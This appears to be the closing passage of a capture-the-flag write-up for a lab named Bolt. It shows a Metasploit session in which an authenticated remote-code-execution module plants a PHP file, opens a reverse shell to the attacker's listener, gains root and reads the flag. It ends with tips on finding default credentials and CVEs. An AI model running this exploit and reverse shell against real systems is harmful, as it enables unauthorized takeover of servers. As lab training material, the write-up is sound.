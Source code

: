 ```
msf5 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on 10.8.91.135:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "qqaq".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file jquscnny.php.
[+] Used token 657413b1d8e8b23c0fd47f76e8 to create vitopjnc.php.
[*] Attempting to execute the payload via "/files/vitopjnc.php?qqaq=`payload`"
[*] Command shell session 1 opened (10.8.91.135:4444 -> 10.10.59.229:39618) at 2020-08-30 15:51:24 +0530
[!] No response, may have executed a blocking payload!
[+] Deleted file vitopjnc.php.
[+] Reverted user profile back to original state.

whoami
root
find / -name flag.txt 2> /dev/null
/home/flag.txt
cat /home/flag.txt
```

It can be seen that we logged in directly as the `root`. Also, we can use the `find` command to search for the flag and then submit it to the final question.

With this we completed the room Bolt!

## Some Key Points to Take Away

1. Whenever exploiting a service, always read it's documentation for default paths and credentials.
2. Use Google, ExploitDB, AttackerKB, Rapid7 and other such websites to look for related CVE's.

![index](./.images/index.jpg)